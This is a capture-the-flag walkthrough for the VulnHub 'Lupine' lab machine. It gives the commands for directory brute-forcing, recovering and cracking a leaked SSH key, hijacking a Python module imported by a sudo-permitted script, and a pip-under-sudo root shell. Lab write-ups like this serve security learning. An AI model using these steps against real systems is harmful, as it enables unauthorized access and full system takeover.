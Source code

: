 # Lupine: 1 CTF – Summary Walkthrough

A full text-based breakdown of the Lupine vulnerable machine from VulnHub. This box showcases real-world issues like leaked SSH keys, Python module hijacking, and dangerous sudo permissions — all leading to privilege escalation.

## Discovery
- Ran `nmap -A -Pn <ip>` → Found ports:
  - 22 (SSH)
  - 80 (HTTP – Apache)

## Enumeration
- Ran `gobuster` on port 80:
  ```
  gobuster dir -u http://<ip> -w /usr/share/wordlists/dirb/common.txt
  ```
- Found `/robots.txt` → Revealed `/~myfiles/`
- Created a custom tilde wordlist:
  ```
  sed 's/^/~/g' /usr/share/wordlists/dirb/common.txt > tilde-list.txt
  ```
- Discovered `/~secret` → Contained:
  - Username: `icex64`
  - Hint: SSH key is hidden
  - Wordlist: Fasttrack

- Used dot-prefixed wordlist to find hidden files:
  ```
  cp /usr/share/wordlists/dirb/directory-list-2.3-small.txt dot-list.txt
  sed -i 's/^/./' dot-list.txt
  gobuster dir -u http://<ip>/~secret -w dot-list.txt
  ```
✅ Found: `/.mysecret.txt` → Contained encrypted Base58 string

- Decoded in CyberChef → Revealed **private SSH key**

## Foothold
- Saved decoded key to `ssh_key.rsa` → Set permissions:
  ```
  chmod 600 ssh_key.rsa
  ```
- Converted key and cracked with John the Ripper:
  ```
  ssh2john ssh_key.rsa > hash
  john --wordlist=/usr/share/wordlists/fasttrack.txt hash
  ```
- Logged into machine:
  ```
  ssh -i ssh_key.rsa icex64@<ip>
  ```

✅ Access as user `icex64` via SSH

## User Escalation (icex64 → arsene)
- Checked sudo privileges:
  ```
  sudo -l
  ```
  Output:
  ```
  (arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py
  ```
- `heist.py` imports: `webbrowser.py`

- Found `/usr/lib/python3.9/webbrowser.py`
- Injected shell payload:
  ```python
  import os
  os.system("/bin/bash")
  ```
- Ran the script:
  ```
  sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
  ```

✅ Switched to user `arsene`

## Privilege Escalation (arsene → root)
- Checked sudo again:
  ```
  sudo -l
  ```
  Output:
  ```
  (ALL : ALL) NOPASSWD: /usr/bin/pip
  ```
- Used GTFOBins pip exploit:
  ```
  TF=$(mktemp -d)
  sudo pip install --target=$TF ptyprocess
  sudo PYTHONPATH=$TF python3 -c 'import ptyprocess; ptyprocess.spawn("/bin/bash")'
  ```

✅ Gained root shell

---

**Full walkthrough with screenshots:**  
👉 [View the Medium post here](https://medium.com/@basitolasubomibalogun/lupine-vulnhub-ctf-walkthrough-ssh-key-leak-python-hijack-root-via-pip-gtfobins-dde7f2ec149c)
